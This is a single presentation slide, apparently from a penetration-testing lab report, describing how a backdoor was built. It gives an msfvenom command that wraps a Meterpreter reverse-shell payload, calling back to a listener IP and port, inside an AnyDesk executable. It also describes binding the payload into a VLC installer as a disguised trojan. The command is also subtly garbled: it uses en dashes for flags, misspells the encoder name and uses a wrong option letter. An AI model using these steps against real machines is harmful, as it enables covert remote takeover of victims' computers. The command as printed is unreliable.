

Crafting the Backdoor
A crucial step involved creating a malicious executable designed to grant unauthorized access, disguised within a legitimate application.
Commands Executed
Payload Generation
Generated a standalone Meterpreter payload (Anydesk.exe).

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 –x /home/kali/Downloads/Anydesk.exe –k –e x86/shikata_na_gai –I 10 –f exe –o /var/html/anydesk.exe
Injected the payload into a legitimate VLC installer to create a stealthy, binded executable (bindedvlc.exe).